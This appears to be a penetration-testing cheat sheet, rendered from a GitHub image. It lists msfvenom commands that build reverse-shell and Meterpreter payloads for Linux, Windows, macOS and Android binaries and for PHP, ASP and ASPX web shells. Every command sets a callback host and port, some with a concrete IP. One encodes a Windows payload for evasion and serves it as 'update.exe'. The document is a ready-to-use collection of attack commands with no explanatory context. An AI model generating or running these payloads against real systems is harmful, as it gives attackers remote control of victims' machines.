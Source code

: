 ### binaries

**linux**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f elf > shell.elf

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x86_linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x6_4linux.elf
```

**windows**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe

msfvenom --payload windows/meterpreter/reverse_tcp LHOST=********* LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 -a x86 --platform Windows -f dll >x86.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 --platform Windows -f dll >x64.dll
```

**mac**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip  lport=your-port -f macho > shell.macho

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f macho -o payload.macho
```

**android**
```bash
msfvenom -p android/meterpreter/shell_reverse_tcp lhost=your-ip  lport=your-port -f apk > shell.apk
```

### web

**php**
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**asp**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f asp > shell.asp
```

**Aspx**
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f aspx -o payload.aspx
```
